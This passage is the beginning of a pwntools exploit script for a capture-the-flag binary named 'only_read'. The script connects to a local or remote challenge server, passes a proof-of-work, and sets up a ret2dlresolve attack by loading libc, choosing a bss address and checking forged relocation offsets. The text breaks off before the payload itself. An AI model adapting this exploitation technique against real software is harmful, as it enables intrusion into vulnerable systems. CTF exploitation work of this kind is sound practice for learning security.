 ## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './only_read'

def payload(lo: int):
    global t
    if lo:
        if lo & 2:
            t = remote('127.0.0.1', 3073)
            gdb.attach(('127.0.0.1', 4097),
                       '''
                       dir /usr/src/debug/glibc-2.39/
                       tb *0x40115e
                       c
                       ''',
                       EXE)
        else:
            t = remote('127.0.0.1', 2049)
    else:
        t = remote('1.95.129.168', 9999)
        t.recvuntil(b'`')
        cmd = t.recvuntil(b'`', drop=True)
        proof = process(cmd.split())
        proof.recvuntil(b'stamp: ')
        t.send(proof.recv())
        proof.close()
        t.recvuntil(b'Here is your challenge')
        success('Proof of Work passed!')

    def delay():
        if lo & 2:
            pause()
        else:
            sleep(0.5)

    # interupt when this script is not working
    def failure(msg: str):
        if b'chroot' in t.recv():
            log.failure(msg)
            t.close()

    def test_offsets(symidx: float, relidx: float) -> bool:
        no_mismatch = True
        if symidx > int(symidx):
            log.failure('SYM_OFFSET couldn\'t meet symtab[ELFW(R_SYM)(reloc->r_info)]!')
            no_mismatch = False
        if relidx > int(relidx):
            log.failure('REL_OFFSET couldn\'t meet l_info[DT_JMPREL] + reloc_arg!')
            no_mismatch = False
        return no_mismatch

    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.39-0ubuntu8.4_amd64/libc.so.6')
    elf = ELF(EXE)
    # to write 0x800 bytes, buf + count must be accessible, so + 0x880 is maximum
    bss = (elf.bss() & ~0xfff) + 0x800
    read_raw = 0x401142
    dl_resolve = 0x401020

```